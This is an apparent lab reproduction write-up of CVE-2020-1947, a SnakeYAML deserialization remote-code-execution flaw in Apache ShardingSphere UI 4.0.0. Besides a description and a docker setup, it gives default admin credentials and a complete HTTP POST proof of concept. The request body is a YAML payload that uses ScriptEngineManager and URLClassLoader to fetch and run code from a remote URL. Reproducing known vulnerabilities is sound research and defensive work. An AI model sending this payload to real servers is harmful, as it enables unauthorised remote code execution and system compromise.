

# CVE-2020-1947

## Description

In Apache ShardingSphere(incubator) 4.0.0-RC3 and 4.0.0, the 
ShardingSphere's web console uses the SnakeYAML library for parsing YAML
 inputs to load datasource configuration. SnakeYAML allows to unmarshal 
data to a Java type By using the YAML tag. Unmarshalling untrusted data 
can lead to security flaws of RCE.

| Item           | Value                 | Remark    |
| -------------- | --------------------- | --------- |
| Risk Level     | HIGH                  |           |
| Attack Type    | Remote Code Execution |           |
| Attack Postion | Request Body          |           |
| Principle      |                       | SnakeYAML |

## Environment

`centos`:7.8.2003 + `jdk`:8u261 +  `shardingsphere`:4.0.0 + `zookeeper`:3.6.2

```bash
# downlaod docker(include php-fpm and nginx)
docker pull lubinlew/cve-2020-1947

# run the docker
docker run -d -p 40080:8088 --name cve-2020-1947 lubinlew/cve-2019-1947:latest
```

## Reappear

### login in shardingsphere

admin/admin

### Add a registry




### POC
```bash
POST /api/schema HTTP/1.1
Host: 10.130.12.127:8088
Content-Length: 282
Accept: application/json, text/plain, */*
Access-Token: YOUR-TOKEN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: http://10.130.12.127:8088
Referer: http://10.130.12.127:8088/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"name":"test schema","ruleConfiguration":"name: 1\nmasterDataSourceName: 2\nslaveDataSourceNames: [1,2,3]\nloadBalanceAlgorithmType: 4\n","dataSourceConfiguration":"!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://127.0.0.1:8000/\"]]]]"}
```

## References

[[CVE-2020-1947]Apache ShardingSphere UI YAML RCE](https://www.freesion.com/article/5095402881/)

[CVE-2020-1947 Sharding-UI的反序列化复现及分析 ](https://www.cnblogs.com/potatsoSec/p/12461330.html)
